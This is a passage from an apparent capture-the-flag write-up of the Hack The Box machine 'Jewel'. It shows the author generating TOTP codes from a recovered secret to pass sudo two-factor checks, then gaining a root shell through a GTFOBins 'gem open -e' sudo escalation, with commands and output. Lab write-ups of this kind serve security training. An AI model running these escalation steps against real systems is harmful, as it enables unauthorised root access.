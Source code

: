   * create symbolic link:

		(remote) bill@jewel.htb:/home/bill$ ln -s  liboath.so.0.1.3 liboath.so.0
		(remote) bill@jewel.htb:/home/bill$ ls -l
		lrwxrwxrwx  1 bill bill    16 Feb 20 10:07 liboath.so.0 -> liboath.so.0.1.3

  * setting `LD_LIBRARY_PATH` path to current folder:

		(remote) bill@jewel.htb:/home/bill$ LD_LIBRARY_PATH=$LD_LIBRARY_PATH:/home/bill
		(remote) bill@jewel.htb:/home/bill$ export LD_LIBRARY_PATH

  * running:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -V
		oathtool (OATH Toolkit) 2.6.6
		Copyright (C) 2009-2021 Simon Josefsson.
		License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
		This is free software: you are free to change and redistribute it.
		There is NO WARRANTY, to the extent permitted by law.

		Written by Simon Josefsson.

* Now the last thing is to generate code and check if it works.
  * code generated successfully:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
		015396

  * now time to send this code to sudo:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4' && sudo -l
		627580
		[sudo] password for bill: 
		Verification code: 
		Matching Defaults entries for bill on jewel:
			env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, insults

		User bill may run the following commands on jewel:
			(ALL : ALL) /usr/bin/gem

    * And successfully execute sudo command.

# Root Exploting

* User can run `/usr/bin/gem` as any user with sudo:

  **exploit:** `sudo /usr/bin/gem open -e "/bin/bash -c /bin/bash" rdoc` From [gtfobins](https://gtfobins.github.io/gtfobins/gem/)

	  (remote) bill@jewel.htb:/home/bill$ sudo /usr/bin/gem open -e "/bin/bash -c /bin/bash" rdoc
	  root@jewel:/usr/lib/ruby/gems/2.5.0/gems/rdoc-6.0.1# id
	  uid=0(root) gid=0(root) groups=0(root)